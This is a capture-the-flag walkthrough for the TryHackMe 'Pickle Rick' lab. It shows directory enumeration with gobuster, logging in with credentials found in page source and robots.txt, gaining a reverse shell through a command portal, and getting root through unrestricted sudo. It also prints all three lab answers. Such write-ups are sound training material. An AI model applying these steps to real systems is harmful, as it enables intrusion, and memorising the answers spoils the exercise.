



# [Pickle Rick](https://tryhackme.com/room/picklerick)

First of all, checking the source code of the front page reveals a username "R1ckRul3s" in the comments



Navigating to `/robots.txt`, we get the string "Wubbalubbadubdub"



Running `gobuster` gives a few interesting targets

```sh
$ gobuster dir -u "http://box.ip/" -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x html,php -r -o root

/index.html           (Status: 200) [Size: 1062]
/assets               (Status: 200) [Size: 2185]
/login.php            (Status: 200) [Size: 882]
/portal.php           (Status: 200) [Size: 882]
```

Note: `/portal.php` just redirects to `/login.php for now`.

At `/login.php`, I tried the known username "R1ckRul3s" with the found string "Wubbalubbadubdub", which gave us access and redirected to `/portal.php`.

The portal page seems to runs system commands on a Linux machine...



... so I just ran a simple bash reverse shell on got access to the box!

Right away, there's a couple of interesting files

```sh
www-data@ip-10-10-100-30:/var/www/html$ ls
Sup3rS3cretPickl3Ingred.txt  clue.txt	 index.html  portal.php
assets			     denied.php  login.php   robots.txt
www-data@ip-10-10-100-30:/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
www-data@ip-10-10-100-30:/var/www/html$ cat clue.txt
Look around the file system for the other ingredient.
```

We've got the first ingredient for question 1: `mr. meeseek hair`

Checking with `sudo -l` *without a password*, we got some very interesting output

```sh
www-data@ip-10-10-100-30:/var/www/html$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-100-30.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-100-30.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Our user, `www-data`, can run *ALL* commands without a password! With that, the next obvious thing to do is to get a root shell with `sudo bash`.

Looking at `/home`, we can see 2 users: `rick` and `ubuntu`, and in rick's directory, we have our 2nd ingredient: "1 jerry tear"

```
root@ip-10-10-100-30:~# cd /home
root@ip-10-10-100-30:/home# ls *
rick:
second ingredients

ubuntu:
root@ip-10-10-100-30:/home# cat rick/second\ ingredients
1 jerry tear
```

Going to `/root`, we find the 3rd ingredient, the answer to question 3: "fleeb juice"

```
www-data@ip-10-10-100-30:/var/www/html$ sudo bash
root@ip-10-10-100-30:/var/www/html/assets# cd
root@ip-10-10-100-30:~# ls
3rd.txt  snap
root@ip-10-10-100-30:~# cat 3rd.txt
3rd ingredients: fleeb juice
```
